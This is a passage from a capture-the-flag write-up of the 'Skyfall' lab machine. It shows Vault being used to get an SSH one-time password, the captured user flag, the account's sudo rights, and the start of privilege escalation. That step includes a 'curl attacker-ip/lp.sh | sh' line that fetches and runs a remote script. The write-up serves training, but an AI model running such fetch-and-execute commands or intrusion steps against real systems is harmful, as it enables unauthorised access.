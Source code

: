 SSH was interesting, but in needs a role.
List all roles related to `ssh`:
```bash
└─$ ./vault list ssh/roles

Keys
----
admin_otp_key_role
dev_otp_key_role
```

```bash
└─$ ./vault ssh -mode=otp -role=dev_otp_key_role askyy@skyfall.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 7885fdfa-6de7-f6ed-600f-f9234352b706
The authenticity of host 'skyfall.htb (10.10.11.254)' cant be established.
ED25519 key fingerprint is SHA256:mUK/F6yhenOEZEcLnWWWl3FVk3PiHC8ETKpL3Sz773c.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes #
Warning: Permanently added 'skyfall.htb' (ED25519) to the list of known hosts.
(askyy@skyfall.htb) Password: # Enter OTP Code Above
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
askyy@skyfall:~$
```

> Note: `sudo apt intall sshpass`
{: .prompt-info }

### User.txt

```bash
askyy@skyfall:~$ cat user.txt
d16a4ce09fc316af3d1e7cf0cd9bcd9e
```

## Privilege Escalation (root)

```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
askyy@skyfall:~$ curl 10.10.16.75/lp.sh | sh | tee lp.log
╔══════════╣ Container related tools present (if any):
/usr/bin/docker
/usr/sbin/lxc
/usr/bin/runc
...
╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets
...
```